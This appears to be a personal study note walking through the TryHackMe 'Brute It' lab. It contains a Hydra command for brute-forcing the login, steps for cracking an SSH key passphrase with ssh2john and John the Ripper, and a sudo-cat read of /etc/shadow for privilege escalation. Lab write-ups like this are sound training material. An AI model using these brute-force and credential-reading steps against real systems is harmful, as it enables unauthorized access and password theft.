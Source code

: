 
2024-07-28 20:06

Source: #tryhackme #privesc 

Tags:  [[Cryptography]]
#### Hydra brute force

we have a website that has a simple login page with username and password 
we find the username from the source code 
use [[Tags/hydra]] to brute force the password
```
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.91.80 http-post-form '/admin/:user=^USER^&pass=^PASS^:Username or password invalid'
```
#### cracking rsa 

after logging in the website we find a [[ssh]] `rsa` private key, `wget` it from the website  
The special John the Ripper tool called **ssh2john.py** which can extract the crackable hash from the [[RSA]] private key. (don't save o/p in a text file)
```
 /usr/share/john/ssh2john.py id_rsa  > rsa.hash
```
then user `rockyou` wordlist with john to crack the pass 
`chmod` the original `id_rsa` file - `chmod 600 id_rsa`
use `ssh` to login as john
#### Priv esc

`sudo -l` -> can run `cat` with sudo
go to gtfobins and find exp. for `cat `
since you can cat files using sudo you `cat /etc/shadow` and get a hash of the root pass which you further crack using john 
Before we use John the Ripper to find out the root’s password we need to put it in a format that john will understand. To do this we will use the unshadow command. 
```
unshadow passwd.txt shadow.txt > pass.txt
```
`sudo cat` the `root/root.txt` and get the flag
### References

[TryHackMe | Brute It](https://tryhackme.com/r/room/bruteit)
[TryHackMe: Brute It - Eric Logan](https://eric.cc/tryhackme-brute-it/)
[TryHackMe | Brute It Walkthrough | Medium](https://enescayvarli.medium.com/tryhackme-bruteit-walkthrough-e93e3f29c233)

Linpeas - [linpeas | grimbins](https://grimbins.github.io/grimbins/linpeas/)